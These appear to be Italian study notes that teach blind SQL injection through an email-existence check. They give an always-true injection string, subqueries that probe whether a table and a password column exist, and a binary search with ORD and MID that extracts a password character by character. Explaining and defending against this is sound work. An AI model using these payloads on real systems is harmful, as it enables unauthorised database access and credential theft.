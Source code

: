 Supponiamo che la query per controllare l’esistenza dell’utente sia del tipo:

`SELECT 1 FROM ... WHERE ... email='EMAIL’`

dove `EMAIL` è un input utente.

- L'attaccante può modificare il comportamento della query, ad esempio aggiungendo una condizione che è sempre vera (come `'OR 1 #`).
- Se l'applicazione invia comunque l'email (e quindi non viene restituito un errore), significa che il database è vulnerabile a SQL injection.
- A questo punto l’attaccante fa una injection e compone una query di questo tipo con lo scopo di ottenere il nome delle tabelle dal database andando a tentativi:
    
    ```sql
     SELECT 1
     FROM people
     WHERE mail='' OR (SELECT 1 FROM users LIMIT 1)=1 LIMIT 1;
    ```
    
    In questo modo se non viene dato errore scopriamo che la tabella `users` esiste, altrimenti possiamo pensare che la tabella non esista.
    
- L’attaccante può adesso controllare l’esistenza di una particolare colonna, tramite la funzione SQL `MID`. Tale funzione prende tre parametri `MID(string, start_pos, len)` e restituisce una sottostringa di `string` di lunghezza `len` partendo dalla posizione `start_pos` (nota che gli indici in SQL partono da 1, non da 0).
    
    Verrà composta la seguente query per controllare l’esistenza della colonna `password`:
    
    ```sql
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT MID(password,1,0) FROM people LIMIT 1)='' #
    ```
    
    se la colonna `password` non esiste la query darà errore, altrimenti darà successo in quanto stiamo prendendo una sottostringa di lunghezza zero uguale quindi a `''`.
    
- A questo punto l'attaccante può fare la query carattere per carattere fino a scoprire la password completa.
    
    Si può fare una ricerca binaria per ridurre il numero di tentativi:
    
    la funzione `ORD` restituisce il codice ASCII del caratteri più a sinistra della stringa che prende in input
    
    ```sql
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('m') #
    					 -> FALSE
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('t') #
    					 -> FALSE
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('w') #
    					 -> FALSE
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('y') #
    					 -> TRUE
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('x') #
    					 -> TRUE
    ```
    